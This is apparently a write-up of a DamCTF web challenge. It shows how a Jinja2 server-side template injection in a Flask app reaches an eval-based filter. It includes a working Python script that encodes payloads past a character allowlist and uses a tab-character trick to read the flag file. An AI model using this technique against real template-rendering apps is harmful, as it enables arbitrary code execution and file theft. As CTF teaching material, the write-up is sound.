




# Super Secure Translation Implementation (SSTI)
Here is my writeup about the last web challenge of DamCTF

The challenge url was: https://super-secure-translation-implementation.chals.damctf.xyz

So let's start!

## Looking for informations
As soon as we get the url, we can see a python code which corresponds to the source page.
```py
from flask import Flask, render_template, render_template_string, Response, request
import os
from check import detect_remove_hacks
from filters import *
server = Flask(__name__)
# Add filters to the jinja environment to add string
# manipulation capabilities
server.jinja_env.filters["u"] = uppercase
server.jinja_env.filters["l"] = lowercase
server.jinja_env.filters["b64d"] = b64d
server.jinja_env.filters["order"] = order
server.jinja_env.filters["ch"] = character
server.jinja_env.filters["e"] = e
@server.route("/")
@server.route("/<path>")
def index(path=""):
    # Show app.py source code on homepage, even if not requested.
    if path == "":
        path = "app.py"
    # Make this request hackproof, ensuring that only app.py is displayed.
    elif not os.path.exists(path) or "/" in path or ".." in path:
        path = "app.py"
    # User requested app.py, show that.
    with open(path, "r") as f:
        return render_template("index.html", code=f.read())
@server.route("/secure_translate/", methods=["GET", "POST"])
def render_secure_translate():
    payload = request.args.get("payload", "secure_translate.html")
    print(f"Payload Parsed: {payload}")
    resp = render_template_string(
        """<p>"""
        + str(detect_remove_hacks(payload))
        + """</p><a href="/">Take Me Home</a>"""
    )
    return Response(response=resp, status=200)
if __name__ == "__main__":
    port = int(os.environ.get("PORT", 30069))
    server.run(host="0.0.0.0", port=port, debug=False)
```
Let's note some informations:
<ul>- The server is using Flask and render_template_string with our inputs</ul>
<ul>- 2 files are imported, check and filters</ul>
<ul>- The code is using filters</ul>
<ul>- We can send a string to render at /secure_translate/</ul>

Obviously, with the challenge title and the configuration we are going to exploit an SSTI.

## First try
Let's go to /secure_translate/


We can see that there is an allowlist, we can bruteforce allowed characters or we can be smarter, let's retrieve the main page..

I said that two files are imported. If we look the index function of the code, we can see that if path is not empty and exists, the server will display the code, so we can try to access check and filters with url.

https://super-secure-translation-implementation.chals.damctf.xyz/filters.py

```py
import base64
def uppercase(x):
    return x.upper()
def lowercase(x):
    return x.lower()
def b64d(x):
    return base64.b64decode(x)
def order(x):
    return ord(x)
def character(x):
    return chr(x)
def e(x):
    # Security analysts reviewed this and said eval is unsafe (haters).
    # They would not approve this as "hack proof" unless I add some
    # checks to prevent easy exploits.
    print(f"Evaluating: {x}")
    forbidlist = [" ", "=", ";", "\n", ".globals", "exec"]
    for y in forbidlist:
        if y in x:
            return "Eval Failed: Foridlist."
    if x[0:4] == "open" or x[0:4] == "eval":
        return "Not That Easy ;)"
    try:
        return eval(x)
    except Exception as exc:
        return f"Eval Failed: {exc}"
```


https://super-secure-translation-implementation.chals.damctf.xyz/check.py

```py
from limit import is_within_bounds, get_golf_limit
def allowlist_check(payload, allowlist):
    # Check against allowlist.
    print(f"Starting Allowlist Check with {payload} and {allowlist}")
    if set(payload) == set(allowlist) or set(payload) <= set(allowlist):
        return payload
    print(f"Failed Allowlist Check: {set(payload)} != {set(allowlist)}")
    return "Failed Allowlist Check, payload-allowlist=" + str(
        set(payload) - set(allowlist)
    )
def detect_remove_hacks(payload):
    # This effectively destroyes all web attack vectors.
    print(f"Received Payload with length:{len(payload)}")
    if not is_within_bounds(payload):
        return f"Payload is too long for current length limit of {get_golf_limit()} at {len(payload)} characters. Try locally."
    allowlist = [
        "c",
        "{",
        "}",
        "d",
        "6",
        "l",
        "(",
        "b",
        "o",
        "r",
        ")",
        '"',
        "1",
        "4",
        "+",
        "h",
        "u",
        "-",
        "*",
        "e",
        "|",
        "'",
    ]
    payload = allowlist_check(payload, allowlist)
    print(f"Allowlist Checked Payload -> {payload}")
    return payload
```

So we got our allowlist and a very interesting code..

## Analysis
In check.py we can see some functions and especially `e` which evaluate its parameter. So how could we call it ?

At the top of app.py we can see Flask filters, with Google we can easily learn how to use it:
<ul>https://ttl255.com/jinja2-tutorial-part-4-template-filters/</ul>

So, if we put ``"open('/flag').read()"|e`` in parameter of /secure_translate/ we can read our flag!

But our allowlist will annoy us...



Let's construct our payload to bypass this allowlist.

## Payload construction
We are going to use the ch filters which returns a unicode string of one character with ordinal. However we can use only 1, 4 and 6 because of filters. So, we'll play with sum and substraction.

I created a python script to automate the payload construction:
```py
#! /usr/bin/env python3
import requests
import string
import re
from bs4 import BeautifulSoup as bs
from urllib.parse import unquote
table = {
    '1':"'1'", 
    '4':"'4'", 
    '6':"'6'", 
    'b':"'b'", 
    'c':"'c'", 
    'd':"'d'", 
    'e':"'e'", 
    'h':"'h'", 
    'l':"'l'", 
    'o':"'o'", 
    'r':"'r'", 
    'u':"'u'", 
    '"':"'\"'", 
    '#':"'#'", 
    '&':"'&'", 
    "'":"\''\'", 
    '(':"'('", 
    ')':"')'", 
    '*':"'*'", 
    '-':"'-'", 
    '{':"'{'", 
    '|':"'|'", 
    '}':"'}'",
    'a': "(111-14)|ch",
    'f': "(6*(16+1))|ch",
    'g': "(111-6-1-1)|ch",
    'i': "(111-6)|ch",
    'j': "(111-4-1)|ch",
    'k': "(111-4)|ch",
    'm': "(111-1-1)|ch",
    'n': "(111-1)|ch",
    'p': "(111+1)|ch",
    'q': "(111+1+1)|ch",
    's': "(111+4)|ch",
    't': "(111+6-1)|ch",
    'v': "(114+4)|ch",
    'w': "(114+6-1)|ch",
    'x': "(16+4)|ch",
    'y': "(111+6+4)|ch",
    'z': "(114+6)|ch",
    '0': "(44+4)|ch",
    '2': "(44+6)|ch",
    '3': "(44+6+1)|ch",
    '5': "(46+6+1)|ch",
    '7': "(46+6+4-1)|ch",
    '8': "(46+6+4)|ch",
    '9': "(46+6+6-1)|ch",
    ".": "46|ch",
    "_": "(111-16)|ch",
    " ": "(44-6-6)|ch",
    "[": "(111-16-4)|ch",
    "]": "(111-14-4)|ch",
    "/": "(46+1)|ch",
    "\\": "((11+6+6)*4)|ch",
    "\t": "(6+4-1)|ch"
}
def get_filters():
    filters = []
    allowed = []
    for char in string.printable:
        r = requests.get(f"https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload={char}")
        if "Failed Allowlist Check" not in r.text:
            allowed.append(char)
            print(allowed)
        
def payload(cmd):
    cmd = list(cmd)
    for i in range(len(cmd)):
        cmd[i] = table[cmd[i]]
    result = "+".join(cmd)
    return re.sub(r"'\+'", "", result)
def urlencode(cmd):
    cmd = list(cmd)
    for i in range(len(cmd)):
        if cmd[i] == "+":
            cmd[i] = "%2B"
    return "".join(cmd)
while True:
    cmd = input("\n> ")
    if cmd == "exit":
        exit()
    exploit = payload(cmd)
    exploit_encoded = "{{(" + urlencode(exploit) + ")|e}}"
    length = len(unquote(exploit_encoded))
    r = requests.get(f"https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload={exploit_encoded}")
    if "Internal" in r.text:
        print("[-] Internal Server Error")
        continue
    soup = bs(r.text, 'html.parser')
    result = soup.find("code").find("p").contents[0]
    print(f'\x1b[34;1mLength: \x1b[37m{length}/161, {161 - length} chars left\x1b[0m)')
    print(f'\x1b[34;1mOutput: \033[37m{result}\x1b[0m')
```

Now we can start exploiting.

## Exploit
Let's use our payload ``open("/flag").read()``:



Indeed if we take a look on filters.py, we can see that if open are the first four letters of our payload, we'll see a beautiful error message. So let's try the shortest ``os`` payload I know:



Arf so we could not use bash commands :/

But as I said, open is filtered only if it's at the start of the payload, and the whitespace is filtered. But we can use the tab key!


Yeah! Here is our flag: ``dam{p4infu1_all0wl1st_w3ll_don3}``
